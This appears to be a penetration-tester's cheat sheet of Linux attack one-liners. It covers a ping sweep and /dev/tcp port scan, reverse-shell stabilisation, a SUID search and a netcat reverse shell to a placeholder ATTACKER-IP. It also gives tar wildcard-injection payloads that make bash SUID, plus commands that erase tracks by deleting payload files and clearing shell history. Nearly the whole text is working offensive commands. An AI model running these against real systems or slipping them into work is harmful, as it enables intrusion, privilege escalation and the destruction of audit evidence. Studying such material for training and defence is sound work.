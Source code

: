 ## Ping Sweep && Port Scan One-Liners (esp if nmap doesn't exist)
```
for i in {1..255}; do (ping -c 1 192.168.1.${i} | grep "bytes from" &); done

for i in {1..65535}; do (echo > /dev/tcp/192.168.1.1/$i) >/dev/null 2>&1 && echo $i is open; done
```

## Reverse Shell Stabilization
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
reset
```
## SUID search
```
find / -type f -perm -u=s 2>/dev/null
```
## Reverse Shell alternative (assuming nc exists)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER-IP ATTACKER-PORT >/tmp/f
```

## Wildcard Injection - exploitation
```
printf '#/!bin/bash\nchmod +s /bin/bash' > shell.sh    OR
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/shell.sh    

echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```
## Wildcard Injection - erasing tracks
```
rm -- --checkpoint*
rm -- "--checkpoint* "
rm shell.sh

[SESSION ONLY] history -c 
clear ~/.bash_history
```
